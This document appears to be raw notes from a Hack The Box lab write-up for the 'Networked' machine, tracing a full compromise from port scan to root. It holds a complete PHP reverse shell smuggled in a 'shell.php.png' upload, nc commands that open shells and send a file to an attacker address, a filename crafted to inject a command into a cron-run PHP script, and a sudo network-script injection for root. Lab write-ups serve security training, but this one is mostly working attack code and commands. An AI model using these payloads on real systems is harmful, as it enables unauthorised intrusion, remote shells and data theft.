

PORT    STATE  SERVICE VERSION
22/tcp  open   ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 22:75:d7:a7:4f:81:a7:af:52:66:e5:27:44:b1:01:5b (RSA)
|   256 2d:63:28:fc:a2:99:c7:d4:35:b9:45:9a:4b:38:f9:c8 (ECDSA)
|_  256 73:cd:a0:5b:84:10:7d:a7:1c:7c:61:1d:f5:54:cf:c4 (ED25519)
80/tcp  open   http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
443/tcp closed https


10.10.10.146/backup/backup.tar
-rw-r--r-- 1 kali kali  229 Jul  9  2019 index.php
-rw-r--r-- 1 kali kali 2.0K Jul  2  2019 lib.php
-rw-r--r-- 1 kali kali 1.9K Jul  2  2019 photos.php
-rw-r--r-- 1 kali kali 1.3K Jul  2  2019 upload.php


moved file name:
 $name = str_replace('.','_',$_SERVER['REMOTE_ADDR']).'.'.$ext;


any file ->
http://10.10.10.146/uploads/10_10_14_5.png


ext:
```php
function getnameUpload($filename) {
  $pieces = explode('.',$filename);
  $name= array_shift($pieces);
  $name = str_replace('_','.',$name);
  $ext = implode('.',$pieces);
  return array($name,$ext);
}
```


test.php
```php
<?php


function getnameUpload($filename) {
    $pieces = explode('.',$filename);
    $name= array_shift($pieces);
    $name = str_replace('_','.',$name);
    $ext = implode('.',$pieces);
    return array($name,$ext);
  }

$filename = "shell.php.png";

list($foo,$ext) = getnameUpload($filename);

$result = str_replace('.','_', '10.10.14.4').'.'.$ext;

echo $result;
```
```
POST /upload.php HTTP/1.1
Host: 10.10.10.146
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------334986682910585201961787437875
Content-Length: 6023
Origin: http://10.10.10.146
Connection: close
Referer: http://10.10.10.146/upload.php
Upgrade-Insecure-Requests: 1

-----------------------------334986682910585201961787437875
Content-Disposition: form-data; name="myFile"; filename="shell.php.png"
Content-Type: image/png

‰PNG

<?php
set_time_limit (0);
$VERSION = "1.0";
$ip = '10.10.14.5';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

//
// Daemonise ourself if possible to avoid zombies later
//

// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies.  Worth a try...
if (function_exists('pcntl_fork')) {
    	// Fork and have the parent process exit
    	$pid = pcntl_fork();
    	
    	if ($pid == -1) {
        		printit("ERROR: Can't fork");
        		exit(1);
        	}
    	
    	if ($pid) {
        		exit(0);  // Parent exits
        	}
    
	// Make the current process a session leader
    	// Will only succeed if we forked
    	if (posix_setsid() == -1) {
        		printit("Error: Can't setsid()");
        		exit(1);
        	}
    
	$daemon = 1;
    } else {
    	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
    }

// Change to a safe directory
chdir("/");

// Remove any umask we inherited
umask(0);

//
// Do the reverse shell...
//

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
    	printit("$errstr ($errno)");
    	exit(1);
    }

// Spawn shell process
$descriptorspec = array(
       0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
      1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
      2 => array("pipe", "w")   // stderr is a pipe that the child will write to
   );

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
    	printit("ERROR: Can't spawn shell");
    	exit(1);
    }

// Set everything to non-blocking
// Reason: Occsionally reads will block, even though stream_select tells us they won't
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
    	// Check for end of TCP connection
    	if (feof($sock)) {
        		printit("ERROR: Shell connection terminated");
        		break;
        	}
    
	// Check for end of STDOUT
    	if (feof($pipes[1])) {
        		printit("ERROR: Shell process terminated");
        		break;
        	}
    
	// Wait until a command is end down $sock, or some
    	// command output is available on STDOUT or STDERR
    	$read_a = array($sock, $pipes[1], $pipes[2]);
    	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);
    
	// If we can read from the TCP socket, send
    	// data to process's STDIN
    	if (in_array($sock, $read_a)) {
        		if ($debug) printit("SOCK READ");
        		$input = fread($sock, $chunk_size);
        		if ($debug) printit("SOCK: $input");
        		fwrite($pipes[0], $input);
        	}
    
	// If we can read from the process's STDOUT
    	// send data down tcp connection
    	if (in_array($pipes[1], $read_a)) {
        		if ($debug) printit("STDOUT READ");
        		$input = fread($pipes[1], $chunk_size);
        		if ($debug) printit("STDOUT: $input");
        		fwrite($sock, $input);
        	}
    
	// If we can read from the process's STDERR
    	// send data down tcp connection
    	if (in_array($pipes[2], $read_a)) {
        		if ($debug) printit("STDERR READ");
        		$input = fread($pipes[2], $chunk_size);
        		if ($debug) printit("STDERR: $input");
        		fwrite($sock, $input);
        	}
    }

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

// Like print, but does nothing if we've daemonised ourself
// (I can't figure out how to redirect STDOUT like a proper daemon)
function printit ($string) {
    	if (!$daemon) {
        		print "$string\n";
        	}
    }

?> 

-----------------------------334986682910585201961787437875
Content-Disposition: form-data; name="submit"

go!
-----------------------------334986682910585201961787437875--
```

http://10.10.10.146/uploads/10_10_14_5.php.png


python -c "import pty;pty.spawn('/bin/bash')"

bash-4.2$ pwd 
/home
bash-4.2$ find .
.
./guly
./guly/.bash_logout
./guly/.bash_profile
./guly/.bashrc
./guly/.bash_history
./guly/check_attack.php
./guly/user.txt
./guly/crontab.guly
./guly/.viminfo


bash-4.2$ cat user.txt 
cat: user.txt: Permission denied


linpeas.sh


Linux version 3.10.0
Sudo version 1.8.23: CVE-2019-18634

/var/mail/guly

[+] Can I write in network-scripts? ......
 You have write privileges on /etc/sysconfig/network-scripts/ifdown
/etc/sysconfig/network-scripts/ifdown-isdn
/etc/sysconfig/network-scripts/ifup
/etc/sysconfig/network-scripts/ifup-isdn  

root       3650  0.0  1.7 573924 16932 ?        Ssl  10:57   0:00 /usr/bin/python2 -Es /usr/sbin/tuned -l -P

passwd file: /var/lib/yum/history/history-2019-07-02.sqlite


nc 10.10.14.5 1337 < /var/lib/yum/history/history-2019-07-02.sqlite

```php
bash-4.2$ cat /home/guly/check_attack.php 
<?php
require '/var/www/html/lib.php';
$path = '/var/www/html/uploads/';
$logpath = '/tmp/attack.log';
$to = 'guly';
$msg= '';
$headers = "X-Mailer: check_attack.php\r\n";

$files = array();
$files = preg_grep('/^([^.])/', scandir($path));

foreach ($files as $key => $value) {
        $msg='';
  if ($value == 'index.html') {
        continue;
  }
  #echo "-------------\n";

  #print "check: $value\n";
  list ($name,$ext) = getnameCheck($value);
  $check = check_ip($name,$value);

  if (!($check[0])) {
    echo "attack!\n";
    # todo: attach file
    file_put_contents($logpath, $msg, FILE_APPEND | LOCK_EX);

    exec("rm -f $logpath");
    exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");
    echo "rm -f $path$value\n";
    mail($to, $msg, $msg, $headers, "-F$value");
  }
}

?>
```


bash-4.2$ cat /home/guly/crontab.guly     
*/3 * * * * php /home/guly/check_attack.php


kali@kali:~/htb/boxes/networked/10.10.10.146/backup$ touch uploads/"; echo test"
kali@kali:~/htb/boxes/networked/10.10.10.146/backup$ php check_attack.php 
PHP Notice:  Array to string conversion in /home/kali/htb/boxes/networked/10.10.10.146/backup/check_attack.php on line 22
Arrayattack!
nohup /bin/rm -f uploads/; echo test > /dev/null 2>&1 &rm -f uploads/; echo test


kali@kali:~/htb/boxes/networked/10.10.10.146/backup$ touch uploads/'; nc 10.10.14.5 1337 -e bash; #'
kali@kali:~/htb/boxes/networked/10.10.10.146/backup$ php check_attack.php 
PHP Notice:  Array to string conversion in /home/kali/htb/boxes/networked/10.10.10.146/backup/check_attack.php on line 22
Arrayattack!
nohup /bin/rm -f uploads/; nc 10.10.14.5 1337 -e bash; # > /dev/null 2>&1 &kali@kali:~/htb/boxes/networked/10.10.10.146/backup$ 


connects, but immediately disconnects
kali@kali:~/htb/boxes/networked/10.10.10.146$ nc -lvnp 1337
listening on [any] 1337 ...


connect to [10.10.14.5] from (UNKNOWN) [10.10.10.146] 60806


touch '; nc 10.10.14.5 1337 -e $(which bash);'


[guly@networked shm]$ sudo -l
Matching Defaults entries for guly on networked:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin,
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
    env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User guly may run the following commands on networked:
    (root) NOPASSWD: /usr/local/sbin/changename.sh

```bash
#!/bin/bash -p
cat > /etc/sysconfig/network-scripts/ifcfg-guly << EoF
DEVICE=guly0
ONBOOT=no
NM_CONTROLLED=no
EoF

regexp="^[a-zA-Z0-9_\ /-]+$"

for var in NAME PROXY_METHOD BROWSER_ONLY BOOTPROTO; do
        echo "interface $var:"
        read x
        while [[ ! $x =~ $regexp ]]; do
                echo "wrong input, try again"
                echo "interface $var:"
                read x
        done
        echo $var=$x >> /etc/sysconfig/network-scripts/ifcfg-guly
done
  
/sbin/ifup guly0
```

[guly@networked shm]$ cat /etc/sysconfig/network-scripts/ifcfg-guly
DEVICE=guly0
ONBOOT=no
NM_CONTROLLED=no
NAME=ps /tmp/foo
PROXY_METHOD=asodih
BROWSER_ONLY=asdoih
BOOTPROTO=asdoih


https://vulmon.com/exploitdetails?qidtp=maillist_fulldisclosure&qid=e026a0c5f83df4fd532442e1324ffa4f


 You have write privileges on 
/etc/sysconfig/network-scripts/ifdown
/etc/sysconfig/network-scripts/ifdown-isdn
/etc/sysconfig/network-scripts/ifup
/etc/sysconfig/network-scripts/ifup-isdn  


https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md


Writable /etc/sysconfig/network-scripts/ (Centos/Redhat)
/etc/sysconfig/network-scripts/ifcfg-1337 for example

NAME=Network /bin/id  &lt;= Note the blank space
ONBOOT=yes
DEVICE=eth0

EXEC :
./etc/sysconfig/network-scripts/ifcfg-1337


[guly@networked shm]$ cat rev 
#!/bin/bash
nc 10.10.14.5 4444 -e /bin/bash
chmod 777 rev


[guly@networked shm]$ sudo /usr/local/sbin/changename.sh     
interface NAME:
network /dev/shm/rev  &lt;= Note the blank space
wrong input, try again
interface NAME:
network /dev/shm/rev  
interface PROXY_METHOD:
asfasf
interface BROWSER_ONLY:
asfasf
interface BOOTPROTO:
asfasf


